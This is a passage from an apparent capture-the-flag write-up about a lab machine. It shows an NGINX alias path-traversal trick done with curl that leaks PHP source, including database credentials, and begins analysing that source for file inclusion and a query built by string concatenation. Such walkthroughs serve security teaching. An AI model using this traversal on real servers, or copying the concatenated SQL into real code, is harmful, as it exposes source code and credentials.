 What happens when I get `index.php`? Doing it through a normal path traversal doesn’t work, but through this alias trick does:

```

root@kali# curl -s -k -I https://www.nestedflanders.htb/dev/../html/index.php | grep HTTP
HTTP/1.1 404 Not Found
root@kali# curl -s -k -I https://www.nestedflanders.htb/dev../html/index.php | grep HTTP
HTTP/1.1 200 OK

```

If I do a GET instead of a HEAD, I can see the full source for the page:

```

root@kali# curl -s -k https://www.nestedflanders.htb/dev../html/index.php
<?php
$servername = "localhost";
$username = "nestedflanders";
$password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
...[snip]...

```

Why am I getting source? In NGINX, you have to configure each server to run requests through a php interpreter. If the dev server isn’t configured to run php, it will just return the static file, without interpreting it.

### Find LFI

#### Source Analysis

With the full source, I can look at what’s happening on the main site:

```

<?php
$servername = "localhost";
$username = "nestedflanders";
$password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
$db = "neddy";
$conn = new mysqli($servername, $username, $password, $db);
$debug = False;

include "6fb17817efb4131ae4ae1acae0f7fd48.php";

function getTplFromID($conn) {
        global $debug;
        $valid_ids = array (25,465,587);
        if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {
                        $sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
        } else {
                $sql = "SELECT name FROM idname where id = '25'";
        }
        if ($debug) { echo "sqltpl: $sql<br>\n"; }

        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
        while($row = $result->fetch_assoc()) {
                $ret = $row['name'];
        }
        } else {
                $ret = 'main';
        }
        if ($debug) { echo "rettpl: $ret<br>\n"; }
```